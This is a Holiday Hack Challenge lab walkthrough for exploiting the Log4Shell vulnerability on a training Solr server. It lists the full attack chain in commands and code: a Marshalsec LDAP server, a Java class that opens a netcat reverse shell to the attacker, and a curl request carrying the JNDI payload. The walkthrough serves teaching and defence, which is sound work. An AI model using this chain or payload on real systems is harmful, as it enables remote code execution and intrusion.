 # Yule Log4Jack Help

Hi, Josh Wright here. I'm the technical director for the Holiday Hack
Challenge. We don't normally break the 4th wall like this, but we think this
Log4j vulnerability calls for special measures to give you the information you
need to assess, identify, and mitigate this vulnerability.

In this challenge, Icky McGoop asks for your help in exploiting a Java Solr
server at http://solrpower.kringlecastle.com:8983. This server is vulnerable to
the Log4shell vulnerability. Your goal is to exploit the server and get a
shell.  Once you have shell access, examine the file in
`/home/solr/kringle.txt`.  Read the message, then run `runtoanswer` and answer
the question to complete the challenge.

> The solrpower.kringlecastle.com server is only accessible inside of the North Pole!

To assist you, we have a web server listening on port 8080, serving files from
the `/home/troll/web` directory. We also have a Netcat listener running on
TCP/4444 for a reverse TCP shell callback. We also included the Marshalsec tool
for LDAP deserialization, as part of the Log4shell vulnerability exploit chain.

> **If you want a hands-on lab walkthrough on exploiting this vulnerability, read on!**








# Exploit Steps

The vulnerable server at http://solrpower.kringlecastle.com:8983 is running
Solr; you can see this by making a request to the web server `/solr/` endpoint,
as shown here:

```
~$ curl http://solrpower.kringlecastle.com:8983/solr/
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html ng-app="solrAdminApp" ng-csp>
<!--
...
</body>
</html>
```

> NOTE: Solr is not the only product vulnerable to the Log4shell vulnerability!

To exploit the vulnerable server, we will launch the Marshelsec Java
deserialization LDAP server. The vulnerable server needs to reach the malicious
LDAP server as part of the Log4shell attach path.

Change to the `marshalsec` directory, as shown here:

```
~$ cd marshalsec
~/marshalsec$ ls
marshalsec-0.0.3-SNAPSHOT-all.jar
```

Start the Marshalsec LDAP server, specifying the listening web server by IP
address on port 8080. In the request, indicate the Java class name
`#YuleLogExploit` which will correspond to the attack code we'll generate
next, as shown here:

```
~/marshalsec$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#YuleLogExploit"
Listening on 0.0.0.0:1389
```

> Be sure to replace `WEBSERVERIP` with the IP address of your terminal.

So far the attacking system has started the Marshalsec LDAP server started, the
web server to deliver the malicious Java class, and the shell listener. Next,
we need to create the exploit in Java to run a command on the vulnerable server
and connect back to the attacker system.

Click to switch to the bottom terminal. Change to the web directory by running
`cd web`, as shown here.

```
~$ cd web
~/web$
```

Next, create a file named `YuleLogExploit.java` and add the Java exploit code
shown below. You can use the text editor nano to create the file by running
`nano YuleLogExploit.java`.

```
public class YuleLogExploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc NETCATIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

This Java program will run the Netcat command and send a shell to the specified
IP address.

> NOTE: Make sure you replace the NETCATIP string with the IP address of your
> Netcat listener in the top-right corner of your terminal.

(If you don't want to type this exploit code you can run `mv .exploit
YuleLogExploit.java`), then edit to replace `NETCATIP` with your terminal IP address.

Next, compile the exploit using the javac compiler, as shown here:

```
~/web$ javac YuleLogExploit.java
~/web$ ls
YuleLogExploit.class  YuleLogExploit.java
```

Next, deliver the Log4shell exploit to gain remote access to Santa's Solr
server by making a cURL request, as shown here.

```
~/web$ curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}}
```

> Be sure to replace `MARSHALSECIP` with the IP address of your terminal.

If the exploit succeeds, you will see a status update in the terminal
window for the Marshalsec LDAP server, the web server, and the Netcat shell
listener. Switch to the Netcat shell listener terminal and enter any Linux
command such as `whoami`:

```
listening on [172.17.0.2] 4444 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.2] 49530
whoami
solr
```

**Success!**

Next, retrieve the contents of the file in `/home/solr/kringle.txt` using `cat`:

```
cat /home/solr/kringle.txt
...
```

Finally, return to the terminal where you ran cURL and run `runtoanswer` to
complete the achievement.

## Troubleshooting

If you don't get a shell following these steps there are several ways to
troubleshoot:

1. Verify that the Marshalsec server is started with the terminal IP address
2. Verify that the `YuleLogExploit.java` file has the terminal IP address for
   the reverse TCP connection
3. If you change the Java class exploit, make sure you recompile it by running
   `java YuleLogExploit.java`.
4. Verify that the `curl` request specifies the Marshalsec LDAP server in the
   request pointing to the terminal IP address
